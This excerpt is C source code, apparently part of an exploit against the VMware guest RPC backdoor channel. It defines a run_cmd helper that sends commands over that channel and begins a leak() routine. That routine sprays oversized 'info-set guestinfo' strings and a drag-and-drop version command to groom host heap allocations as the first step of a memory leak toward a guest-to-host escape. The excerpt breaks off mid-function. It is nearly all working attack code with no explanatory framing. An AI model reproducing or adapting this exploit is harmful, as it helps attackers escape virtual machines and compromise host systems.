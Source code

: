 ```c
void run_cmd(char *cmd){
    struct channel tmp;
    int res,len,i;
    char *data;
    channel_open(&tmp.cookie1,&tmp.cookie2,&tmp.num,&res);
    if(!res){
        printf("fail to open channel!\n");
        return;
    }
    channel_set_len(tmp.cookie1,tmp.cookie2,tmp.num,strlen(cmd),&res);
    if(!res){
        printf("fail to set len\n");
        return;
    }
    channel_send_data(tmp.cookie1,tmp.cookie2,tmp.num,strlen(cmd)+0x10,cmd,&res);

    channel_recv_reply_len(tmp.cookie1,tmp.cookie2,tmp.num,&len,&res);
    if(!res){
        printf("fail to recv data len\n");
        return;
    }
    printf("recv len:%d\n",len);
    data = malloc(len+0x10);
    memset(data,0,len+0x10);
    for(i=0;i<len+0x10;i+=4){
        channel_recv_data(tmp.cookie1,tmp.cookie2,tmp.num,i,data,&res);
    }
    printf("recv data:%s\n",data);
    channel_recv_finish(tmp.cookie1,tmp.cookie2,tmp.num,&res);
    if(!res){
        printf("fail to recv finish\n");
    }

    channel_close(tmp.cookie1,tmp.cookie2,tmp.num,&res);
    if(!res){
        printf("fail to close channel\n");
        return;
    }
}
void leak(){
    struct channel chan[10];
    int res=0;
    int len,i;  
    char pay[8192];
    char *s1 = "info-set guestinfo.a AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA";
    char *data;
    char *s2 = "info-get guestinfo.a";
    char *s3 = "1 AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA";
    char *s4 = "tools.capability.dnd_version 4";
    char *s5 = "vmx.capability.dnd_version";
    //init data
    run_cmd(s1); // set the message len to be 0x100, so when we call info-get ,we will call malloc(0x100);
    run_cmd(s4);

    //first step 
    channel_open(&chan[0].cookie1,&chan[0].cookie2,&chan[0].num,&res);
    if(!res){
        printf("fail to open channel!\n");
```